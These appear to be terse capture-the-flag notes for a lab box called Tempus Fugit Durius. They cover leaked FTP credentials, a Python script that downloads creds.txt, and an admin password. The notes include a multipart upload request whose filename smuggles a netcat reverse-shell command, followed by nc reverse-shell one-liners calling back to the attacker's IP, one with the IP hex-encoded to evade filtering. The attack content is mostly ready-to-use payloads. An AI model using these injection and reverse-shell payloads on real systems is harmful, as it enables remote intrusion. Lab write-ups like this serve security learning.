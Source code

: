 # Tempus_Fugit_Durius 

> VOiD | Monday 16 August 2021 12:19:20 AM IST

My IP : 10.11.43.119
Target IP : 



# PORT 80
/uploads
takes txt and rtf formats



```bash

user www
cat /app/main.py

ftp = FTP('ftp.mofo.pwn')
ftp.login('someuser', '04653cr37Passw0rdK06')

```

```py


# Import Module
import ftplib
  
# Fill Required Information
HOSTNAME = "ftp.mofo.pwn"
USERNAME = "someuser"
PASSWORD = "04653cr37Passw0rdK06"


# Connect FTP Server
ftp_server = ftplib.FTP(HOSTNAME, USERNAME, PASSWORD)
  
# force UTF-8 encoding
ftp_server.encoding = "utf-8"


# Get list of files
ftp_server.dir()

# creds.txt


# Enter File Name with Extension
filename = "creds.txt"
  
# Write file in binary mode
with open(filename, "wb") as file:
    # Command for Downloading the file "RETR filename"
    ftp_server.retrbinary(f"RETR {filename}", file.write)

```

```bash

admin:BAraTuwwWzx3gG


```


```

------WebKitFormBoundaryKPjXbUBwLXbH903Y
Content-Disposition: form-data; name="file"; filename="h.txt ;nc 10.11.43.119 4444 -e /bin/bash"
Content-Type: text/plain

hey


```
in file name put this : =


nc 10.11.43.119 4444 -e /bin/bash
0x0a0b2b77
nc 0x0a0b2b77 4 -e sh